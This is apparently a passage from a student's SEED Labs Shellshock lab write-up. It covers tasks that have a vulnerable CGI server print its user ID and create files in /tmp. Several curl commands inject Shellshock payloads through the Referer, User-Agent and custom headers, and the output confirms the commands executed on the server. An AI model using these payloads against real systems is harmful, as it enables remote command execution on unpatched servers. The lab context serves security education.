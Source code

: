 #### Task 3.B: Get the server to tell you its process' user ID.

You can use the <code>/bin/id</code> command to print out the ID information.

**Ans:** Below is the commands I used:
```console
root@adb5168e1e79:/# curl -e "() { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I obtained the same results if I replace <code>-e</code> with <code>-A</code> or <code>-H</code>.

#### Task 3.C: Get the server to create a file inside the <code>/tmp</code> folder.

You need to get into the container to see whether the file is created or not, or use another Shellshock attack to list the <code>/tmp</code> folder.

**Ans:** Below is the commands I used:
```console
root@adb5168e1e79:/# curl -A "() { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/touch /tmp/task-3c" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
root@adb5168e1e79:/# ls -l /tmp
total 0
-rw-r--r-- 1 www-data www-data 0 Oct 29 23:30 task-3c
root@adb5168e1e79:/# curl -e "() { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/touch /tmp/task-3c-2" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
root@adb5168e1e79:/# ls -l /tmp
total 0
-rw-r--r-- 1 www-data www-data 0 Oct 29 23:30 task-3c
-rw-r--r-- 1 www-data www-data 0 Oct 29 23:31 task-3c-2
root@adb5168e1e79:/# curl -H "() { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/touch /tmp/task-3c-3" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br>
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
</body></html>
root@adb5168e1e79:/# curl -H "var: () { echo vulnerable; }; echo Content_type: text/plain; echo; /bin/touch /tmp/task-3c-3" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi 
root@adb5168e1e79:/# ls -l /tmp
total 0
-rw-r--r-- 1 www-data www-data 0 Oct 29 23:30 task-3c
-rw-r--r-- 1 www-data www-data 0 Oct 29 23:31 task-3c-2
-rw-r--r-- 1 www-data www-data 0 Oct 29 23:34 task-3c-3
```

#### Task 3.D: Get the server to delete the file that you just created inside the <code>/tmp</code> folder.
